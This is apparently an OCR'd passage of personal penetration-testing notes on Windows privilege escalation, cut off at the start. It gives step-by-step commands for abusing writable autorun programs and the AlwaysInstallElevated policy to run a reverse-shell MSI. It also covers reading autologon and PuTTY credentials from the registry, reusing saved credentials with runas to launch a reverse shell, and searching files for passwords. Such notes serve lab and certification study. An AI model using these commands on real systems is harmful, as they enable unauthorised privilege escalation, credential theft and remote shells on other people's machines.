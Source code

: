             - Copy to specific file path for hijacking
            - Start service executable
                > net start dllsvc
    - AutoRuns
        - Search for the following in winpeas file (Can use "autorun" to scan only for it)
            - "Autorun\ Applications
            - Under here look for any application that has FilePerms "Everyone [AllAccess]"
        - verify
            - Query registery for auto run programs
                > reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
            - Check all for permissions
                > .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
                    - Look for permissions for security groups you are in
        - Make a backup of the autorun file
        - Reboot the system with listener running.
    - AlwaysInstallElevated (MSI)
        - Search for the following in winpeas file (Can use "windowscreds" to scan only for it)
            - "AlwaysInstallElevated"
                - Search for "AlwaysInstalledElevated" for HKLM and HKCU
        - verify
            > reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
                - Makesure REG_DWORD = 0x1
            > reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
                - Makesure REG_DWORD = 0x1
        - Create new reverse shell for MSI (see msfvenom section)   
            - This alone will give you the nt system auth you need to priv esc
        - Run the shell
            > msiexec /quiet /qn /i reverse.msi
            - WARNING! This will create an error on windows desktop, if you need to reconnect, you must kill the Windows Installer process
                > tasklist | findstr -I msiexec.exe
                    - Find all PID values
                > Taskkill /PID 2928 /F
                OR
                > wmic process where name='msiexec.exe' delete
            - Once all killed, you can run reverse shell again
    - Passwords
        - Autologin or saved creds
            - Search for the following in winpeas file (Can use "filesinfo" and "userinfo" to scan only for it)
                - "AutoLogon"
                - "Putty"
            - verify
                > reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
                    - "DefaultUser" and "DefaultPassword" (at bottom)
                > reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
            - Access from Kali
                - use winexe
            - Access from windows
                - Use PsExec64.exe 
        - Credential Manager
            - Search for the following in winpeas file (Can use "filesinfo" and "userinfo" to scan only for it)
                - "Credential"
            - verify (Note the actual password will not be listed but if the name shows up, it can be used)
                > cmdkey /list
            - Use the saved creds (In windows)
                > runas /savecred /user:admin C:\PrivEsc\reverse2.exe
        - Search for passwords (Run in current user directory, temp directories, or a suspecious program dir)
            - Recursively search for file in th current directory
                > dir /s *passw* == *.config
            - Recursively search for files in the current directory that contain "password" and end in extensions 
                > findstr /si password *.xml *.ini *.txt
            - C:\Windows\Panther\Unattend.xml usually has a password in base64